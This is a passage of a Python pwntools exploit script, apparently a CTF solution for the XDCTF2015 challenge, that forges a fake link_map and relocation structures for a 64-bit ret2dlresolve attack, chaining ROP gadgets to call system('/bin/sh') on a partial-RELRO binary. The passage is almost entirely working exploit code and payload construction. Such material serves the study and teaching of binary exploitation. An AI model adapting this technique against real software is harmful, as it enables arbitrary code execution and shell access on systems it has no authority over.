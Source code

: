 ```python
      fake_JMPREL, addr = fake_linkmap_addr + 0x18
        0x18: p_r_offset, offset pointer to the resloved addr
        0x20: r_info
        0x28: append
      resolved addr
        0x30: r_offset
      fake_DT_SYMTAB, addr = fake_linkmap_addr + 0x38
        0x38: 6, tag of the DT_SYMTAB
        0x40: known_function_ptr-8, p_fake_symbol_table
      command that you want to execute for system
        0x48: /bin/sh
      P_DT_STRTAB, pointer for DT_STRTAB
        0x68: fake a pointer, e.g., fake_linkmap_addr
      p_DT_SYMTAB, pointer for fake_DT_SYMTAB
        0x70: fake_linkmap_addr + 0x38
      p_DT_JMPREL, pointer for fake_DT_JMPREL
        0xf8: fake_linkmap_addr + 0x8
    '''
    plt0 = elf.get_section_by_name('.plt').header.sh_addr

    linkmap = p64(offset_of_two_addr & (2**64 - 1))
    linkmap += p64(17) + p64(fake_linkmap_addr + 0x18)
    # here we set p_r_offset = fake_linkmap_addr + 0x30 - two_offset
    # as void *const rel_addr = (void *)(l->l_addr + reloc->r_offset) and l->l_addr = offset_of_two_addr
    linkmap += p64((fake_linkmap_addr + 0x30 - offset_of_two_addr)
                   & (2**64 - 1)) + p64(0x7) + p64(0)
    linkmap += p64(0)
    linkmap += p64(6) + p64(known_function_ptr-8)
    linkmap += '/bin/sh\x00'           # cmd offset 0x48
    linkmap = linkmap.ljust(0x68, 'A')
    linkmap += p64(fake_linkmap_addr)
    linkmap += p64(fake_linkmap_addr + 0x38)
    linkmap = linkmap.ljust(0xf8, 'A')
    linkmap += p64(fake_linkmap_addr + 8)

    resolve_call = p64(plt0+6) + p64(fake_linkmap_addr) + p64(0)# +6=jmp2dl
    return (linkmap, resolve_call)

# 1
fake_linkmap_addr = bss_addr+0x100
# construct fake string, symbol, reloc.modify .dynstr pointer in .dynamic section to a specific location
rop = ROP("./main_partial_relro_64")
offset = 112+8
rop.raw(offset*'\x00')
link_map, resolve_call =ret2dlresolve_with_fakelinkmap_x64(elf,fake_linkmap_addr,elf.got['read'],libc.sym['system']-libc.sym['read'])
rop.raw(csu(0, 1, elf.got['read'], 0, fake_linkmap_addr, len(link_map)))
rop.raw(vuln_addr)
rop.raw("a"*(0x100-len(rop.chain())))
assert(len(rop.chain()) <= 0x100)

p.recvuntil('Welcome to XDCTF2015~!\n')
p.send(rop.chain())
p.send(link_map)

# 2
rop = ROP("./main_partial_relro_64")
rop.raw(offset*'\x00')
#0x00000000004007a1: pop rsi; pop r15; ret; 
rop.raw(0x00000000004007a1)  # stack align 16 bytes
rop.raw(0)
```